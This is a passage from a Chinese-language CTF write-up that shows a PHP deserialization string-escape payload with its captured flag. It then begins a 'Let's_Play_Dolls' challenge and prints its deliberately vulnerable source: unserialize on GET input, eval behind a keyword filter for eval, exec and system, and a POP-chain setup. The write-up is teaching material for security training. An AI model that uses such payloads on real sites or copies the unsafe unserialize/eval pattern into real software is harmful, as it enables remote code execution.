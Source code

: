 ```
?payload=phpphpphpphpphpphpphp";s:3:"V0n";s:14:"has_girlfriend";}
```

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170556.png)

我们输入了56了字符， `phpphpphpphpphpphpphp` 被替换之后正好是56个字符，我们后面的字符就逃逸了，这个时候给他一闭和，flag就来了

minil{7f3ea366-f5ab-463c-b511-af63d6dc7715}

 

 

 

### Let's_Play_Dolls

考点：PHP无参数RCE、pop链

开题送码：

```
 <?php
error_reporting(0);
if(isset($_GET['a'])){
    unserialize($_GET['a']);
}
else{
    highlight_file(__FILE__);
}

class foo1{
    public $var='';
    function __construct(){
        $this->var='phpinfo();';
    }
    function execute(){
        if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $this->var)) { 
            if(!preg_match('/header|bin|hex|oct|dec|na|eval|exec|system|pass/i',$this->var)){
                eval($this->var);
            }  
            else{
                die("hacked!");
            }  
        }

    }
    function __wakeup(){
        $this->var="phpinfo();";
    }
    function __desctuct(){
        echo '<br>desctuct foo1</br>';
    }
}
class foo2{
    public $var;
    public $obj;
    function __construct(){
        $this->var='hi';
        $this->obj=null;
    }
    function __toString(){
        $this->obj->execute();
        return $this->var;
    }
    function __desctuct(){
        echo '<br>desctuct foo2</br>';
    }
```